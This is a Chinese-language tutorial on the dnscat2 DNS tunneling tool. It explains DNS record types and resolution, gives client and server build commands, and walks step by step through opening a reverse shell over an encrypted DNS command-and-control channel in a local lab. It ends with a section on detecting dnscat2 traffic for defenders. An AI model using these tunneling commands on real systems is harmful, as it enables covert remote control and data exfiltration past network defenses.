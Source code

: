 项目地址：[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
### DNS介绍
DNS是域名系统(Domain Name System)的缩写，是因特网的一项核心服务，它作为可以将域名和IP地址相互映射的一个分布式数据库，能够使人更方便的访问互联网，而不用去记住能够被机器直接读取的IP数串。
DNS的记录类型有很多，有A，AAAA,CNAME,MX,SOA,NS等。
DNS Tunneling可以利用其中的一些记录类型来传输数据。例如A，MX，CNAME,TXT，NULL等。
```
A记录：A记录是用来指定主机名对应的ip地址记录，简单的说A记录是指定域名对应的IP地址。

AAAA记录：记录将域名解析到一个指定的ipv6的ip上

CNAME记录，别名解析。可以将注册不同的域名解析到一个ip地址。

NS记录：域名服务器记录，用来指定该域名是由哪个DNS服务器进行解析。

MX记录:指向的是一个邮件服务器。

TXT记录：一般是指某个主机名或域名的说明

PTR记录：反向DNS
```
DNS的解析过程可以分为两种类型：迭代查询和递归查询。通常本机到Local DNS Server的过程属于递归查询，而Local DNS Server对查询域名的解析过程属于迭代查询。为了减轻Local DNS Server的压力，提高解析速度，引入了缓存机制。缓存和TTL紧密相连，当TTL过期，Local DNS Server则会丢弃缓存的数据，重新从权威域名服务器上获取新的数据。
本地客户端---->Local DNS server---->根域服务器
Dns解析过程：系统发出dns解析之前会先看看本地是否保存了相关域名的解析，系统检测到hosts文件中没有响应的域名解析的时候会发送给本地dns解析服务器进行解析，解析之前会看看缓存中是否存在，如果没有，再将解析请求发给下一个dns服务器。结果返回后将该域名的解析结果保存到缓存中。
### DNSCat2 工具介绍
Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。
Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。
### DNSCat2 环境搭建
#### LInux 客户端搭建
```shell
git clone https://github.com/iagox86/dnscat2
cd dnscat2/client/
make
```
#### Linux 服务端搭建
```shell
# 有ruby 环境下
# 无ruby 环境 apt install ruby-full，我的ruby是2.7
cd dnscat2/server
gem install bundler
apt install ruby-dev
bundler install
```
### 反弹shell
首先在服务端运行
```shell
# root 模式下
cd dnscat2/server
ruby dnscat2.rb
```
然后在服务端banner信息中可以看到，如下所示的命令，在客户端处执行
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_23_MUjOmvbJ.png)
```shell
cd dnscat2/client
make
./dnscat --dns server=127.0.0.1,port=53 --secret=c229df179cba2226828cd03ff13859a4
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_23_ljbhtxSF.png)
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_24_oOKqkE9f.png)
在服务端执行
```shell
windows -a
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_24_FdC25E3T.png)
进入会话

```shell
window -i 1
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_24_1QIn5wck.png)
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_25_tmsgNkyQ.png)
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_25_k9gLFpDN.png)
退出当前通道，进入shell
```shell
suspend
windows -a
window -i 2
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_26_GhvceMf4.png)
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_26_8SA5h320.png)

#### 错误分析

1. 地址被占用

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_27_NBRexDp8.png)
```shell
netstat -ntlp
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_27_CQ0StDM8.png)
```shell
# 关闭之后无法上网，这个是dns解析
systemctl stop systemd-resolved.service
```

运行服务端之后，一直告知`warning: Capturing the given block using Kernel#proc is deprecated; use `&block` instead`
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_28_gwzvPUa5.png)
```shell
# 将错误重定向到指定文件即可
ruby dnscat2.rb  2> error
```
[
](https://github.com/iagox86/dnscat2)![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_28_wFphZOCA.png)
### 流量检测
在使用dnscat2 利用dns隧道进行反弹shell，那么作为防守方该如何检测呢？
#### 特征dnscat
首先在客户端处，会向恶意服务端发送dns请求，且会一直发送，包里都有相同的特征dnscat
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_29_q8Vric92.png)
#### 域名特征
其次可以看到解析的域名很长，不符合正常域名
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_29_HClsX9JM.png) 
####  对比正常dns 解析流量包
正常dns域名解析包如下，通过对比可以发现dnscat2 的特征是非常明显的，正常包是不会有加密
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_29_8VMF1SWD.png)

